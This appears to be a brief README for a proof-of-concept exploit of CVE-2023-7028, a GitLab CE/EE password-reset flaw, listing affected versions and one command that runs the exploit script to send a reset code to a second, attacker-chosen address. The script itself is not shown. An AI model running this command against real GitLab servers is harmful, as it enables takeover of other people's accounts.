 ### Affected versions
```
GitLab CE/EE 
16.1 prior to 16.1.6
16.2 prior to 16.2.9
16.3 prior to 16.3.7
16.4 prior to 16.4.5
16.5 prior to 16.5.6
16.6 prior to 16.6.4
16.7 prior to 16.7.2 i
```

### Send password reset code to two e-mail addresses
```
python3 ./CVE-2023-7028.py -u https://<rhost> -t <target>@<domain>
```

### References
* https://github.com/Vozec/CVE-2023-7028

